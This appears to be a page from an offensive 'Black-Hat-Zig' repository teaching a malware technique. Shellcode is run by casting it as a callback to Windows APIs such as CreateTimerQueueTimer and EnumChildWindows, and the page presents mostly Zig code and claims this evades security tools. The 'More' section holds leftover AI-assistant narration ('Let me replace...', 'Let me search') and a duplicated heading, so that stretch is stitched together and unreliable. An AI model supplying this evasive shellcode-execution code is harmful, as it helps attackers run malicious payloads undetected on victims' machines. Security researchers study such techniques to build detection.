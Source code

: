 # Callback Code Execution

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Malware-Techniques/Callback-Code-Execution)

Callback code execution is a technique that leverages Windows API functions that accept callback function pointers to execute shellcode. Instead of using traditional methods like CreateThread or VirtualAlloc, this approach casts shellcode as a legitimate callback function, making it appear more benign to security solutions.

## What is Callback Function

A callback function is a function passed as an argument to another function, which is then invoked at a specific point during the execution of that function. In Windows, many APIs accept callback functions to handle events, enumerate resources, or perform asynchronous operations.

The key insight for malware development is that these callback functions are executed in the same process context with the same privileges, making them perfect vehicles for shellcode execution. By casting shellcode as a callback function pointer, we can trick legitimate Windows APIs into executing our malicious code.

## Common Callback Functions

### Using CreateTimerQueueTimer

`CreateTimerQueueTimer` creates a timer-queue timer that executes a callback function when the timer expires. This is one of the most reliable callback execution techniques.

```zig
extern "kernel32" fn CreateTimerQueueTimer(
    phNewTimer: *?windows.HANDLE,
    TimerQueue: ?windows.HANDLE,
    Callback: WAITORTIMERCALLBACK,
    Parameter: ?*anyopaque,
    DueTime: windows.DWORD,
    Period: windows.DWORD,
    Flags: windows.ULONG,
) callconv(WINAPI) windows.BOOL;

const WAITORTIMERCALLBACK = *const fn (?*anyopaque, windows.BOOL) callconv(WINAPI) void;

// Cast the payload address to the callback function type
const callback = @as(WAITORTIMERCALLBACK, @ptrCast(&payload));

if (CreateTimerQueueTimer(
    &hTimer,
    null, // TimerQueue - use default queue
    callback, // Callback - our shellcode
    null, // Parameter
    0, // DueTime - execute immediately
    0, // Period - execute once
    0, // Flags
) == 0) {
    print("[!] CreateTimerQueueTimer Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using EnumChildWindows

`EnumChildWindows` enumerates child windows and calls a callback function for each window found. When passed a `NULL` parent window, it enumerates all top-level windows.

```zig
extern "user32" fn EnumChildWindows(
    hWndParent: ?HWND,
    lpEnumFunc: WNDENUMPROC,
    lParam: LPARAM,
) callconv(WINAPI) windows.BOOL;

const WNDENUMPROC = *const fn (HWND, LPARAM) callconv(WINAPI) windows.BOOL;

// Cast the payload address to the callback function type
const callback = @as(WNDENUMPROC, @ptrCast(&payload));

if (EnumChildWindows(null, // NULL parent enumerates all top-level windows
    callback, // Our payload
    0 // NULL lParam
) == 0) {
    print("[!] EnumChildWindows Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using EnumUILanguagesW

`EnumUILanguagesW` enumerates the user interface languages available on the system, calling a callback function for each language found.

```zig
extern "user32" fn EnumUILanguagesW(
    lpUILanguageEnumProc: UILANGUAGE_ENUMPROCW,
    dwFlags: DWORD,
    lParam: LPARAM
) callconv(WINAPI) windows.BOOL;

const UILANGUAGE_ENUMPROCW = *const fn ([*:0]u16, LPARAM) callconv(WINAPI) windows.BOOL;
const MUI_LANGUAGE_NAME: DWORD = 0x8;

// Cast the payload address to the callback function type
const callback = @as(UILANGUAGE_ENUMPROCW, @ptrCast(&payload));

if (EnumUILanguagesW(callback, MUI_LANGUAGE_NAME, 0) != 0) {
    print("[!] EnumUILanguagesW Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using VerifierEnumerateResource

`VerifierEnumerateResource` is part of the Application Verifier framework and enumerates application resources, calling a callback for each resource found.

```zig
// Application Verifier callback function type
const AVRF_RESOURCE_ENUMERATE_CALLBACK = *const fn (
    PVOID, // ResourceDescription
    PVOID, // EnumerationContext
    PULONG, // EnumerationLevel
) callconv(WINAPI) ULONG;

// Function pointer type for VerifierEnumerateResource
const FnVerifierEnumerateResource = *const fn (
    HANDLE, // Process
    ULONG, // Flags
    ULONG, // ResourceType
    AVRF_RESOURCE_ENUMERATE_CALLBACK, // ResourceCallback
    ?PVOID, // EnumerationContext
) callconv(WINAPI) ULONG;

// Load verifier.dll dynamically
hModule = LoadLibraryA("verifier.dll");
const proc_addr = GetProcAddress(hModule.?, "VerifierEnumerateResource");
pVerifierEnumerateResource = @as(FnVerifierEnumerateResource, @ptrCast(proc_addr.?));

// Cast the payload address to the callback function type
const callback = @as(AVRF_RESOURCE_ENUMERATE_CALLBACK, @ptrCast(&payload));

// Call VerifierEnumerateResource
_ = pVerifierEnumerateResource.?(
    GetCurrentProcess(),
    0,
    AvrfResourceHeapAllocation,
    callback,
    null,
);
```

### More

Looking at the AlternativeShellcodeExec repository, I can see it contains a comprehensive collection of callback-based shellcode execution techniques. Let me replace the "More" section with specific examples from this repository.Let me search for more callback techniques in the repository:Based on the search results from the AlternativeShellcodeExec repository, here's the updated "More" section:

### More

The callback execution technique is versatile and can be applied to many Windows APIs. Some additional functions that accept callbacks include:

- **`EnumerateLoadedModules`** - Enumerates loaded modules in a process
- **`EnumDirTreeW`** - Enumerates directory trees with file patterns
- **`SymEnumProcesses`** - Enumerates processes for symbol handling
- **`EnumPageFilesW`** - Enumerates system paging files
- **`LdrEnumerateLoadedModules`** - Low-level module enumeration via NTDLL
- **`EnumWindows`** - Enumerates all top-level windows
- **`EnumResourceTypesW`** - Enumerates resource types in modules
- **`EnumFontsW`** - Enumerates fonts

You can checkout more callback functions in [this GitHub repository](https://github.com/aahmad097/AlternativeShellcodeExec).

## Advantages Of Callback Execution

1. **Evasion**: Appears as legitimate API usage to security tools
2. **No Suspicious Allocations**: Uses existing executable memory (.text section)
3. **No Thread Creation**: Executes in the context of existing threads
4. **API Diversity**: Many different APIs can be used, making detection harder
5. **Legitimate Context**: Code runs through legitimate Windows API call chains
